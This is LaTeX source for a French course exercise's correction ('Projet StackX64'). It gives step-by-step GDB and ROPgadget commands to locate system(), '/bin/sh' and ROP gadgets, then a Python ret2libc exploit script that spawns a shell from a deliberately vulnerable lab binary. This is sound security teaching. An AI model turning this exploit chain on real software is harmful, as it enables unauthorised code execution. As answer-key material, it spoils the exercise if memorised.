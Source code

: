 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{correction}
\textbf{4b)} Adresse de \texttt{system()} :
\begin{lstlisting}[style=GDBStyle]
(gdb) break main
(gdb) run
(gdb) print system
$1 = {int (const char *)} 0x7ffff7e17290 <__libc_system>
\end{lstlisting}

\textbf{4c)} Trouver \texttt{"/bin/sh"} :
\begin{lstlisting}[style=GDBStyle]
$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
  1b3d88 /bin/sh
(gdb) info proc mappings
          Start Addr           End Addr  ...  objfile
      0x7ffff7dc0000     0x7ffff7fe8000  ...  libc.so.6
\end{lstlisting}
Adresse de \texttt{"/bin/sh"} = \texttt{0x7ffff7dc0000 + 0x1b3d88} = \texttt{0x7ffff7f73d88}

\textbf{4d)} Gadget \texttt{pop rdi; ret} :
\begin{lstlisting}[style=GDBStyle]
$ ROPgadget --binary stackx64 | grep "pop rdi"
0x0000000000401283 : pop rdi ; ret
\end{lstlisting}

\textbf{4e)} Gadget \texttt{ret} (pour l'alignement) :
\begin{lstlisting}[style=GDBStyle]
$ ROPgadget --binary stackx64 | grep ": ret$"
0x000000000040101a : ret
\end{lstlisting}

\textbf{4f)} Script Python3 pour l'exploit ret2libc :
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase4.py]
import sys

offset = 72

# Addresses (adjust based on your system)
ret_gadget     = 0x40101a           # ret (alignment)
pop_rdi_ret    = 0x401283           # pop rdi; ret
bin_sh_addr    = 0x7ffff7f73d88     # "/bin/sh" in libc
system_addr    = 0x7ffff7e17290     # system() in libc

def p64(addr):
    return addr.to_bytes(8, byteorder='little')

payload  = b"A" * offset
payload += p64(ret_gadget)       # align stack to 16 bytes
payload += p64(pop_rdi_ret)      # pop rdi; ret
payload += p64(bin_sh_addr)      # rdi = "/bin/sh"
payload += p64(system_addr)      # call system("/bin/sh")

sys.stdout.buffer.write(payload)
\end{lstlisting}

Exécution :
\begin{lstlisting}[style=GDBStyle]
$ (python3 exploit_phase4.py ; cat) | ./stackx64
=== StackX64 - Vulnerable Program ===
...
whoami
etudiant
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
